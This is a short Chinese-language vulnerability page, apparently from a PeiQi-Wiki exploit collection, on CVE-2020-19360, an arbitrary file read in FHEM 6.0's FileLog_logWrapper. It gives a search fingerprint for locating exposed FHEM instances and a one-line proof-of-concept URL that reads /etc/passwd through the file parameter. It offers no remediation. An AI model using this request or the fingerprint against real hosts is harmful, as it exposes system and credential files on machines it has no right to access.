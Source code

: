 # Fhem FileLog_logWrapper 任意文件读取漏洞 CVE-2020-19360

## 漏洞描述

FHEM在6.0版本中存在文件包含漏洞，该漏洞源于允许FHEM/FileLog_logWrapper file参数允许攻击者包含文件，攻击者可以利用此漏洞导致敏感信息泄露。

## 漏洞影响

<a-checkbox checked>FHEM 6.0

## 网络测绘

<a-checkbox checked>title=="Home, Sweet Home"</a-checkbox></br>

## 漏洞复现

主页面

![img](/assets/PeiQi-Wiki/img/1637586979107-0847f305-1296-43e5-8094-f662c312cc7e.png)

验证POC

```python
/fhem/FileLog_logWrapper?dev=Logfile&file=%2fetc%2fpasswd&type=text
```

![img](/assets/PeiQi-Wiki/img/1637587030568-032b48b0-d999-4259-8651-e4e96400eb54.png)